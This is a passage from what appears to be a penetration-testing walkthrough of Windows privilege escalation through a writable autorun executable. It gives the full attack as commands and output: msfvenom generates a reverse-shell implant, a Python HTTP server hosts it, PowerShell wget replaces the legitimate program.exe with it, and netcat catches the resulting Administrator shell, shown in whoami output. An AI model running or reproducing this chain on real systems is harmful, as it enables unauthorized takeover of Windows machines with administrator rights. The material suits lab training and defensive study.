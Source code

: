 Since we have write permissions to `C:\Program Files\Autorun Program\program.exe` we can replace it with a payload or an implant. In this case, I will generate an executable reverse shell:

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.130 LPORT=443 -f exe -o implant.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: implant.exe
```

Then I will setup an HTTP listener on my attacker machine:

```bash
❯ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Transfer and replace the original executable with PowerShell:

```powershell
PS C:\> wget 192.168.119.130/implant.exe -O "C:\Program Files\Autorun Program\program.exe"
```

On the attacker machine, we will set up a listener:

```bash
❯ nc -lvnp 443
```

Now let's sign out and sign in as Administrator and wait a bit, once we have waited we should receive a connection as the Administrator user:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.119.130] from (UNKNOWN) [192.168.119.129] 58708
Microsoft Windows [Version 10.0.22000.318]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                     SID                                  
============================= ============================================
desktop-bn\administrator S-1-5-21-264094270-2388996790-3434637240-500


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                                
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Performance Log Users                                 Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
```